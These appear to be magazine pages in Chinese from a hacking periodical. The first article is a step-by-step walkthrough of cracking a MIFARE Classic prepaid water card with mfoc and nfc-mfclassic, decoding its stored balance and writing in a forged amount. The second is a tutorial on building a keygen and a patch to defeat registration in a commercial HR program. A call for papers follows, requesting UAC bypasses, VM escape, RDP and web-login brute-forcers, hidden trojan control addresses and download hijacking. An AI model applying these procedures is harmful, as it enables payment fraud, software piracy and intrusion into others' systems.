首先确定卡片是 M1 卡，且数据是保存在卡里而不是服务器上的。通过图 1，我们可以看到机器只有电源线，没有网线，且机器已经很老了，肯定不能是无线方式联接。所以我们有把握这肯定就是 IC 卡，金额数据存放在卡里。对于这种卡，我们有两种让钱“无限”的方式：一是直接复制现有的卡，因为金额可以任意复制，C/V 模式，但这样太没有技术含量，而且成了纯粹地为了利益；二是尝试了解卡片内数据块的实际意义作用，找到数据加密方法，对应地写出解密方法，这样卡内余额就我们随意控制了。当然，第二种方式是以第一种方式为基础的，所以我们一步一步来尝试。


图 1

## Windows 下尝试

根据网上提供的资料（http://bobylive.com/static/1491），我们尝试使用验证漏洞，也就是利用 mfocgui 破解 M1 卡的密钥。先是 Win7 x64，点击按钮即可一键自动破解，但是出现了问题。当试到 05 扇区的时候，程序就开始报错，然后 ACR122U 莫名与 PC 断开联接。网上搜索无果。尝试 RadioWar 的 NFCGUI-PRO，同样的问题。同样的软件，后来换到 XP，问题依旧，如图 2 所示。说明在 Windows 平台上还是多少有点问题，不如 Linux 上的兼容性好。


图 2

## Kali 下尝试

值得一提的是，Kali 原生支持 ACR122U，且里面内置了很多 NFC 安全研究工具，极大地方便了我们的工作。（注意，尽量不要用 Windows 上的 Kali 虚拟机，因为 USB 口还是通过 Windows 平台，所以兼容性问题还是可能存在，会出现 USB Timeout 错误。）

进入 Kali，我们能看到很多 RFID/NFC 的工具。我们用到的是 mfoc 和 nfc-mfclassic 这两个。mfoc 是利用验证漏洞破解 key 的一个工具，而 nfc-mfclassic 则是对卡片进行读写的工具，可以从卡片里 dump 出数据到本地，然后利用 hexeditor 分析编辑，再将数据导入到卡里去。


图 3

由于网上很少有这类工具的中文使用说明，我在此一并给大家介绍了。

```bash
mfoc: invalid option -- '-'
Usage: mfoc [-h] [-k key]... [-P probnum] [-T tolerance] [-O output]
```

| 参数 | 说明 |
|---|---|
| h | 打印帮助 |
| k | 将一个新的密钥添加到密钥表里 |
| P | 每扇区测试多少个密钥（默认 20） |
| T | 随机和随机范围 |
| O | 输出到的文件 |

为了以后使用方便，我们将破解的命令写成 shell 脚本：crack2file。

```bash
if [ $# -lt 1 ]
then
echo "Usage:"
echo "    readto dumpFile"
else
mfoc -k ffffeeeedddd -O $1 # 这句是我们真正用到的命令
fi
```

连接 ACR122U 到电脑，输入 `./crack2file tmp/unknow.mdf`，就会开始自动破解了，如图 4 和图 5 所示。


图 4


图 5

如果这张卡存在默认密码的话，理论上我们就能得到全部密钥。稍等几分钟，看到 mfoc 提示成功，dump 文件已经得到，保存备份几次。然后我们再次去水机处刷卡，消费 1 元之后余额为 8.00。因为我们已经有卡的加密密钥了，所以不必再次破解，通过使用 nfc-mfclassic 工具，使用已经有的导出文件再次导出卡内数据，如图 6 所示。


图 6

同样再给些中文使用帮助：

- **r|R|w|W** 从卡片中读取数据到文件中（r），读取文件然后写入到卡片中（w）。或者如果你是使用 UID 可写卡，使用强制读取 R、强制写入 W 可以改写 UID。
- **a|A|b|B** 使用 keyA 还是 keyB，当有错误的时候就停止（a,b）或者忽略错误（A,B）
- **<dump.mfd>** dump 到的文件
- **<keys.mfd>** key 文件
- **F** 如果 UID 不一样的话也继续

我们使用命令：`nfc-mfclassic r A 600.mfd tmp/unknow.mfd f`（建议写成脚本）。

## 分析导出的 Dump 文件

成功导出变化了的 dump 文件，用 hexeditor（这个会自动变成正常阅读顺序，当然某些数据不懂时，我们可以尝试使用 hexdump，这个是反端的顺序，可能会有新的发现）打开分析。通过对比文件变化，我们发现有一部分内容变化了。

```text
04 0A 52 18 7B EF 03 20 00 6A C8 01 00 3C 00 1E
4F 4B 18 7B EF 03 20 00 6A C8 01 00 3C 00 1E 00
04 0A 4B 18 7B EF 03 20 00 6A C8 01 00 3C 00 1E   8.00

04 0A 52 18 7B EF 03 84 00 7C EB 01 00 3C 00 1E
4F 4B 18 7B EF 03 84 00 7C EB 01 00 3C 00 1E 00
04 0A 4B 18 7B EF 03 84 00 7C EB 01 00 3C 00 1E   9.00
```

这其中 `hex(900)=0x384`，`hex(800)=0x320`，所以这三行的对应数值就是金额。后面 `7C EB 01` 和 `6A C8 01` 是变化的内容。拿这张卡再去刷一次，确定金额已经正确分析出来，但是后面的 `6A C8 01` 变为了 `6A C8 02`。既然这三次变化没有规律，为了确认后面的变化部分是否与时间有关，我将同一个数据复制了两张卡，然后先后到机器上刷了一样的钱，回来再 dump 出来，发现两张卡内的数据一模一样，所以推断与时间无关。

但是，就因为最开始下的这个结论，导致我在解密的路上越走越偏。我猜测可能是金额与 UID 或者某部分内容通过异或、或、与等常见的运算。尝试算了很长时间很多种可能性，最终没能算出来，暂时只好将卡多复制几次，继续慢慢尝试。

## 转折点

接连刷了几天，得到了很多数据。直到 12 月 2 号中午，再次把所有数据放在一起对比时，忽然发现卡里面内容有点奇怪。当我用变化的 `6A C8` 这部分数值与 UID 异或的时候，组成的内容再加上后面的 `01` 好像有点规律了：

| 最开始测试 | 继续测试 | 昨天 | 今天 |
|---|---|---|---|
| 112701 | 112901 | 120101 | 120201 |
| 112702 |  |  |  |

怎么忽然从 1127 变成 1201 然后是 1202 了？今天是 12 月 2 号！也就是说我前几天测试的时候应该是 11 月 27 日。112701、112702，是指第一次刷卡、第二次刷卡，至于单独测试的那次，因为是在同一天测试的数据，而它只记录日期，所以自然数据就一样了。

知道了这些，我们就把卡上所有信息都掌握了。其他字段都是些无关紧要且不会变的东西，因为卡是匿名买的，不记名不登记。

了解了这些，我们修改为 8888，即为 88.88 元试试，`hex(8888)=0x22b8`。写入卡内，去刷，成功了！如图 7 所示。


图 7

但是，当我再次刷准备拍照的时候发现卡失效了，换一个机器，刷一次之后再次失效。经过多次测试发现，卡内余额只要大于 50 元钱，当前卡就临时失效，而我们购买单张卡时，单张卡内有的余额正好就是 50。也就是说机器内固化了检测卡内余额的功能，实在是想不通为什么要这样的鸡肋功能，对于机器的可升级维护性造成了负担。

至此，这张卡我们就彻底弄清楚如何修改金额了。虽然这只是一个较为简单的数据存放案例，但是作为 M1 卡入门还是不错的教程。希望这篇文章能为大家在 RFID 安全方向上起一个抛砖引玉的作用！

## 制作 Delphi 程序注册机和补丁

文/图 冷家锋 刘虹伶

操作系统：Windows XP SP3 Professional、Windows Server 2003 SP2 企业版  
工具：Exeinfo PE 0.0.3.3、C32asm 1.0.9.0、OllyICE 1.1、Keymake 2.0 修改版、ResHacker 3.4.0.79、spyxx.exe 8.0、Visual Studio 2005。

MainApp 是一款人力资源管理软件，小巧易用。列位看官且随笔者一起看看如何制作该软件的注册机，并学习作者的软件保护思路。

### 准备工作

MainApp 用的数据库是 SQL SERVER 2000，打开企业管理器，附加文件夹内的 CCEasy_Data.MDF，具体步骤可参考“附加数据库步骤”里的操作视频。打开 MainApp.exe 所在文件夹的 connect.udl，根据数据库相关信息配置相关连接参数，如图 1 所示。


图 1

### 获取注册码

常规套路，打开 Exeinfo PE 查其壳，如图 2 所示，软件未加壳，为 Delphi 所编，若加以猛壳，可阻挡部分逆向工程爱好者。


图 2

打开程序后，程序提示要求注册，如图 3 所示。点击【是】，弹出对话框如图 4 所示，随意输入注册码，点击【注册】按钮，提示“注册失败”。


图 3


图 4

祭出 C32asm，按【Ctrl+K】查找字符串“注册失败”，引用地址 00581639。稍加留意，发现“注册失败”附近就是“注册成功”字样。反汇编区向上翻，在地址 00581593 处可见 `Call XX TEST AL,AL JNZ XXX`，典型的注册验证结构，如图 5 所示。


图 5

启动 OD 载入 MainApp.exe，按【Ctrl+G】输入 00581593，回车，接着按【F2】在地址 00581593 下断点。按【F9】运行，停在程序入口处，再次【F9】弹出注册对话框。输入注册码 foobar，点击【注册】按钮断于 00581593。逆向工程的过程是枯燥的，可此时注意图 6 所示 OD 右侧 EDX 指向的字符串，是否觉得所有的枯燥和等待都是值得的？莫非这就是传说中的注册码？激动地赶紧记下来。


图 6

“大胆假设，小心求证”，是为逆向爱好者的基本功。用这行字符串取代 foobar 再注册一次，提示“注册成功”。问题随之而来，要注册码，还是要注册机，这是一个问题。如果您只是要本机运行，可以就此收工。若您志不止此，有更高层次的追求，有报效祖国的远大理想，有成为 Cracker 的伟大信念，愿意为国家而战，为荣誉而战，且随笔者一起追寻制作注册机的历程。

### 制作注册机

一提起制作注册机，很多看官脑海中立马飘来几个字“高大上”。CrackCode 和 Keymake 的横空出世，使得制作注册机不再是事，不再需要费力地分析注册算法和编程。列位随笔者一起启动 Keymake，按【F8】开启“内存注册机”模式，点击【添加】按钮，填上相应的参数，如图 7、图 8 所示。


图 7


图 8

这里解释一下以助列位理解，高于且略过。本段提到的数值为 16 进制。中断地址 581593（根据操作系统的不同，可能会不一致）表示在该处中断，因为此处显示了正确的注册码。中断次数 1 说明第一次中断于 581593 时即显示注册码。注意图 6 中地址 581593 的指令 16 进制码为 E8，指令长度为 5。注册码显示方式有 2 种：寄存器方式和内存方式，此处图 6 中 EDX 中的内存地址保存注册码，因此我们选择内存方式，寄存器选 EDX 是顺其自然的了。填完这些参数，点击【生成】按钮生成注册机，名称当然保存为略具成就感的 keymake 了，高大上的注册机路径要选择执行程序所在文件夹，如图 9 所示。


图 9

那位说了，程序已然注册了，如何反注册呢，否则我们如何测试注册机？强哉斯问！留意到图 6 中的 SQL 语句“Select * from master..sysreg”，reg，想到了什么？register？恭喜您有这个敏感性。带着疑问，我们打开数据库 master，如图 10。数据库中果然有这个表，而且 [uRegID] 字段保存的正是 OD 中显示的注册码，删除该表再启动程序，程序又要求注册，验证了我们的猜测。


图 10

双击打开生成的 keymake.exe，注册机将首先执行 MainApp.exe，点【注册】按钮，程序被中断，弹出注册码窗口，显示的注册码与我们在图 6 中观察的一致，瞬间觉得自己的背影高大了许多，有没有？


图 11

### 修改程序，制作补丁

笔者自信地把注册机给朋友使用，朋友弱弱地提出疑虑：本机的注册码可以顺利生成，可是序列号文本框不可修改，不能生成其他人电脑上的注册码。笔者打开程序测试，序列号文本框确实只能复制，不能粘贴，如图 12 所示。


图 12

遇到这种情况，首先飘入脑海的是启用控件，自然想到 ResHacker，然而 ResHacker 中的 [Dialog] 项下找不到提示注册的对话框，如图 13。查询资料得知，Delphi 所编程序的对话框资源保存在 RCData 中。


图 13

将 MainApp.exe 复制为 MainApp-PATCH.exe，进行补丁制作历程。双击打开 MainApp-PATCH.exe，请出 spyxx.exe，查询注册对话框的类名为 Tfrmregedit，如图 14 所示。在 ResHacker 的 RCData 中找到 Tfrmregedit，双击打开，提示 Out of Memory。用 exescope 可以修改，奈何笔者的 exescope 未注册，只能保存一次。


图 14

找出开发工具 Visual Studio 2005 徒手搏击，顺便挖掘一下控件修改原理。按【Ctrl+O】打开 MainApp.exe，依次展开节点 `\MainApp-PATCH.exe\RCDATA\TFRMREGEDIT`，双击打开该节点。如图 15 右侧所示，共三列，第一列是类似 `000003f0` 的地址，第二列是 16 进制数据，第三列是第二列数据对应的字符。


图 15

利用 spyxx.exe 可以发现注册对话框的序列号后面的文本框类名是 TbsSkinEdit，如图 16 所示。


图 16

浏览图 15 中第三列文本，会发现有 2 个 TbsSkinEdit 控件，其中第一个拥有属性 ReadOnly，第二个则没有 ReadOnly 属性。根据编程经验，ReadOnly 应是控制文本控件是否可以编辑，这里是以 16 进制 09 表示 ReadOnly=True，意味着只读、不可编辑；不显示 ReadOnly 属性表示文本控件可编辑。参照图 17 删除 ReadOnly 属性及其值 09，启动程序，显示图 18 的错误提示。

图 17

图 18

注意到图 18 中 bsEditID 后的字符串长度为 8，与属性 ReadOnly 的长度一致，图 17 中 08 后数值为 0C，是属性字符串 Font.Charset 的长度。这种对应关系并非偶然，猜测 Delphi 程序的窗体资源中控件属性的格式为【控件属性字符串长度/控件属性字符串/控件属性值】。删除图 17 中红色方框标注的 08，再打开程序，运行正常，序列号文本框已经可以编辑，现在可以根据用户提供的序列号生成注册码了，说明我们的猜测正确。这个补丁的修改过程，让我们加深了对 Delphi 程序补丁制作的理解。

## 小结

依惯例来个小结。

一、探索未知的好奇心是逆向工程爱好者基本心理要素之一，可以让你在遇到困难时不放弃，进而去探索程序的内部结构及算法。

二、汇编功底在逆向工程中的重要性不言而喻，但是高级语言的编程经验在 Crack 中同样重要，可以帮助你正向思考作者的保护思路，有助于快速定位问题。

（完）

### 2014 年第 12 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。2015 年第 1 期部分选题如下，完整的选题内容请见每月发送的约稿邮件。

### 1. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- 1) Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- 2) Windows UAC 低权限下，进入系统后提高账户权限的方法。

### 2. 虚拟机穿透

主机安装有虚拟机，现已远程控制虚拟机，寻求如何利用虚拟机的弱点，穿透虚拟机，进而控制本机的方法。

### 3. 同步下载邮件

假设本机当前系统已掌控，在用户登录 Web 邮箱时，能够自动后台同步下载邮件并保存，包括收件箱、发件箱、已发送邮件、联系人等信息，优先实现 Gmail、Yahoo 信箱。

### 4. Windows 7 屏幕保护密码获取

非重启系统状态下，本机（非远程受控机）屏幕保护已启动，本地获取 Windows 7 屏幕保护密码的方法。

### 5. 暴力破解 3389 远程桌面密码

- 要求：
- 1) 针对 Windows 3389 远程桌面实现暴力破解密码；
- 2) 读取指定的用户名和密码字典文件；
- 3) 采用多线程；
- 4) 所有函数都必须判断错误值；
- 5) 使用 VC++2008 编译工具实现，控制台程序；
- 6) 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 7) 支持 Windows XP/2003/7/2008。

### 6. Web 服务器批量扫描破解

- 1) 针对目标 IP 参数要求
  - 10.10.0.0/16
  - 10.10.3.0/24
  - 10.10.1.0-10.255.255.255
- 2) 针对目标 Web 服务器扫描要求
  - 可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 APACHE 或者 IIS 等。具体参考如下：
    - Tomcat
    - Apache
    - Lotus Server
    - ColdFusion
    - WebLogic JBoss
    - JOnAS
    - IIS(WebDAV)
    - Monkey HTTPD
    - WebSphere
    - Axis2
    - Nginx
- 3) 针对目标 Web 服务器后台扫描  
  针对目标进行后台地址搜索。
- 4) 针对目标 Web 后台密码破解  
  搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

### 7. 木马控制端 IP 地址隐藏

要求：

- 1) 在远程控制配置 server 时，一般情况下控制地址是写入被控端的，当木马样本被捕获分析时，可以分析出控制地址。针对这个问题，研究控制端地址隐藏技术，即使木马样本被捕获，也无法轻易发现木马的控制端真实地址。
- 2) 使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

### 8. Web 后台弱口令暴力破解

说明：  
针对国际常用建站系统以及自编写的 Web 后台无验证码登录形式的后台弱口令账号暴力破解。

要求：

- 1) 能够自动或自定义抓取建站系统后台登录验证码脚本 URL，如 WordPress、Joomla、Drupal、MetInfo 等常用建站系统；
- 2) 根据抓取提交账密的 URL，可自动或自定义选择提交方式，自动或自定义提交登录的参数，这里的自动指的是根据默认字典；
- 3) 可自定义设置暴力破解速度，破解的时候需要显示进度条；
- 4) 高级功能：默认字典跑不出来的后台，可根据设置相应的 Google、Bing 等搜索引擎关键字，智能抓取并分析是否是后台以及自动抓取登录 URL 及其参数；默认字典跑不出来的账密可通过 Google、Bing 等搜索引擎抓取目标相关的用户账户、邮箱账户，并以这些账户简单构造爆破账密，如用户为 admin，密码可自动填充为域名，用户为 abcd@abcd.com，账户密码就可以设置为 abcd abcd 以及 abcd abcd123 或 abcd abcd123456 等简单账密；
- 5) 拓展：尽可能多搜集国外常用建站系统后台来增强该软件查找并定位后台 URL 能力；暴力破解要稳定，后台 URL 字典以及账密字典可自定义设置等。

### 9. 编写端口扫描器

要求：

- 1) 扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 2) 扫描方式采用多线程，并能设置线程数；
- 3) 将功能编写成 DLL，导出功能函数；
- 4) 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 5) 尽量多做出错异常处理，以防程序意外崩溃；
- 6) 使用 VC++2008 编译工具编写；
- 7) 支持系统 Windows XP/2003/2008/7。

### 10. Android WIFI Tether 数据转储劫持

说明：

WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 1) 开启 WIFI 热点后，对流经本机的所有网络数据进行存储；
- 2) 不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 3) 针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

### 11. 突破 Windows 7 UAC

说明：

编写一个程序，绕过 Windows 7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- 1) Windows UAC 安全设置为最高级别；
- 2) 系统补丁打到最新；
- 3) 支持 32 位和 64 位系统。

### 2014 年征稿启事

《黑客防线》作为一本技术月刊，已经 14 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

#### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 POC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实力讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实例均在此栏目发表，杜绝任何无亮点技术文章！

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

#### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

#### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

#### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

## 投稿格式要求

- 1) 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图1”“图2”；
- 2) 在稿件末尾请注明您的账户名、银行账号，以及开户地，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 3) 投稿方式和周期：  
  采用 E-Mail 方式投稿，投稿邮箱：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。  
  **重点提示：** 严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。
- 4) 稿费发放周期：  
  稿费当月发放（最迟不超过 2 月），稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 5) 根据稿件质量，分为一等、二等、三等稿件，稿费标准如下：
- 6) 稿费发放办法：  
  银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 7) 投稿信箱及编辑联系  
  投稿信箱：675122680@qq.com、hadefence@gmail.com  
  编辑 QQ：675122680

| 稿件等级 | 稿费 |
|---|---|
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |